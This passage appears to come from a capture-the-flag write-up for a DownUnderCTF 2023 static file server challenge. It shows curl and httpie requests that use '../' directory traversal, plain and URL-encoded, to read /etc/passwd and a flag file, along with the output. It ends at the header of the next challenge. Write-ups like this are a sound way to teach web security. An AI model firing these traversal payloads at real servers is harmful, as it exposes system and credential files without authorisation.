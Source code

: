 ![](/assets/obsidian/1130c4dd8ce3acc96ab1e97d6c765d3f.png){:target='_blank'}

##### Exploit directory traversal

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../flag.txt'
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```

> **URL encode to avoid using `--path-as-is`**
> ```bash
> http https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
> ```
{: .prompt-tip }

> DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}

## xxd-server


#### Info

I wrote a little app that allows you to hex dump files over the internet.

Author: hashkitten
